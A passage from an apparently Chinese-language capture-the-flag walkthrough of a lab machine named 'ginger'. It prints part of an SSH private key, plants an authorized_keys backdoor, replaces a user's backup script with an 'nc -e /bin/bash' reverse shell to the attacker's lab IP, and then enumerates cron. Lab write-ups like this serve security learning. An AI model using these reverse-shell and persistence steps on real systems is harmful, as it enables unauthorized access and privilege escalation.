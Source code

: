 ```bash
WP8ivl/bT7G1NTbqYE4KMlHW8ldY0uLSnugtk3ujpxROaQaley9fRVY5/ADjYeXQ3+h1Xz
VnrPd4KNkpUqx6TqcIHVokJ+WhACT5Xu//FZO5SxFz/pwIrRwYeCEAQjvXFTQgZPjzq6FJ
PHgTJd26uJOP9g7ZxP86SR5EbposwJtXcvuFg/AAAAAwEAAQAAAQEAxFqh4TK934nJwAce
/0VGtg3ZWUk2mufwqlVnVp1DrGzOnn/QlPrXyqh4JBYP0Ga6wKw+ts/5ozGRNjgSxecii0
Xst9CgacabDN/USoNGUZMFezKlQT1dRAtrW/J4CO5AaD43fA1dBTS06r0qqv5XtQZ0AzNW
TkVDWfzLTopsp/5oeDZEfEJxMcqH8D+plcH7GwJ5+IsC2UeNo/DFkgeDWA8V0oOZcjWtwC
MxUt0NXEbpZ2fpw0IHUzozwnIniDEuuQMF1Cnb+/4JHtvo2WvhgQ5zYl7c5vF2bgQypcCr
jrDT/5T4IopF+JlmW/gEhnuYtGeOVm7P/AJDaCtA4gMJAQAAAIBx5BNaWJB3xWmdJRUEgw
vP0bJ3XDSsDcShCd8tJkCho1ROWbR0kOwpaDIKR0+NDMipDxr6K4GuVcANzQsTPJ0RMIZ4
ORwGPh4tfT6iTdaqL93cW5Q+6/IcTMW1gskgweiQIpNStdBWrMGoaaZxuWzWW/X4Jn8PQs
gf86tfPQZHUwAAAIEA+CbZwq58xDTgJSHspKXjGCoC29fS3hUT3QjbllZhH+ZvXB5b7Oek
LixIH7u2H1Tqp7mpWPhN99Y6Gy7TCJyC2sj0AgdGhxUfzia4ZikImHkAfFrFQc5tlk4lrA
hFXTQaDzJYJGkltOnQkNtsAUuViPxi6nBFcFzOy6HiPwNd5KUAAACBAORR79zI+4tbXM3H
s2y2C9TV9qV2nNcMV9uYmnFS6ozmOk+mFOPHlNy8m/gGu/APv+lshK6tKuz7OIy004guup
EV+N5l5yxFiwQ2/7Ir0qgWgmWaRNWq1gHF1i7G4vEtFcZMPYc3dfCwoSiIeLy3XmtQLsuc
WX29ox1iH/cp8OATAAAAEHdlYm1hc3RlckBnaW5nZXIBAg==
-----END OPENSSH PRIVATE KEY-----
(remote) webmaster@ginger:/home/webmaster/.ssh$ cp id_rsa.pub authorized_keys
(remote) webmaster@ginger:/home/webmaster/.ssh$ ls -la
total 20
drwx------ 2 webmaster webmaster 4096 Jun 19 06:25 .
drwx------ 5 webmaster webmaster 4096 Jun 19 06:25 ..
-rw-r--r-- 1 webmaster webmaster  398 Jun 19 06:25 authorized_keys
-rw------- 1 webmaster webmaster 1823 Jun 19 06:25 id_rsa
-rw-r--r-- 1 webmaster webmaster  398 Jun 19 06:25 id_rsa.pub
```

尝试ssh连接：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506191300890.png" alt="image-20250619122739403" style="zoom:50%;" />

可以断开其他终端进行操作了！

```bash
webmaster@ginger:/home/caroline/backup$ echo 'nc -e /bin/bash 192.168.10.107 3456' > /tmp/backup.sh
webmaster@ginger:/home/caroline/backup$ rm backup.sh 
rm: remove write-protected regular file 'backup.sh'? y
webmaster@ginger:/home/caroline/backup$ cp /tmp/backup.sh ./backup.sh
webmaster@ginger:/home/caroline/backup$ ls -la
total 12
drwxrwx--- 2 caroline  webmaster 4096 Jun 19 06:32 .
drwxr-xr-- 5 caroline  webmaster 4096 May 25  2021 ..
-rw-r--r-- 1 webmaster webmaster   36 Jun 19 06:32 backup.sh
webmaster@ginger:/home/caroline/backup$ chmod +x backup.sh
```

另一边果然弹过来了：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506191300891.png" alt="image-20250619123317796" style="zoom: 50%;" />

```bash
(remote) caroline@ginger:/home/caroline$ file /srv/code
/srv/code: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=06cba5f9173dbfdccbdca31eb0477b26ed1e27ff, for GNU/Linux 3.2.0, not stripped
(remote) caroline@ginger:/home/caroline$ crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
```